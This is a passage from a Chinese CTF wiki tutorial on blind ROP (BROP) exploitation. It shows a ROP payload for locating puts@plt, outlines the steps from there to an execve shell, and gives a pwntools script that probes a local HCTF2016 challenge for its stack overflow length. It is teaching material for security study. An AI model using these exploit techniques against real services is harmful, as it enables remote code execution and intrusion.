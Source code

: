 - 使用rop chain，同时使得每个rop对应的文件描述符不一样
- 同时打开多个连接，并且我们使用相对较高的数值来试一试。

需要注意的是

- linux默认情况下，一个进程最多只能打开1024个文件描述符。
- posix标准每次申请的文件描述符数值总是当前最小可用数值。

当然，我们也可以选择寻找puts函数。

###### 寻找puts@plt

寻找puts函数(这里我们寻找的是 plt)，我们自然需要控制rdi参数，在上面，我们已经找到了brop gadget。那么，我们根据brop gadget偏移9可以得到相应的gadgets（由ret2libc_csu_init中后续可得）。同时在程序还没有开启PIE保护的情况下，0x400000处为ELF文件的头部，其内容为\x7fELF。所以我们可以根据这个来进行判断。一般来说，其payload如下

```
payload = 'A'*length +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```

#### 攻击总结

此时，攻击者已经可以控制输出函数了，那么攻击者就可以输出.text段更多的内容以便于来找到更多合适gadgets。同时，攻击者还可以找到一些其它函数，如dup2或者execve函数。一般来说，攻击者此时会去做下事情

- 将socket输出重定向到输入输出
- 寻找“/bin/sh”的地址。一般来说，最好是找到一块可写的内存，利用write函数将这个字符串写到相应的地址。
- 执行execve获取shell，获取execve不一定在plt表中，此时攻击者就需要想办法执行系统调用了。

### 例子

这里我们以 [HCTF2016的出题人失踪了](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/brop/hctf2016-brop) 为例。基本思路如下

#### 确定栈溢出长度

```python
def getbufferflow_length():
    i = 1
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('WelCome my friend,Do you know password?\n')
            sh.send(i * 'a')
            output = sh.recv()
            sh.close()
            if not output.startswith('No password'):
                return i - 1
            else:
                i += 1
        except EOFError:
            sh.close()
            return i - 1
```

根据上面，我们可以确定，栈溢出的长度为72。同时，根据回显信息可以发现程序并没有开启canary保护，否则，就会有相应的报错内容。所以我们不需要执行stack reading。
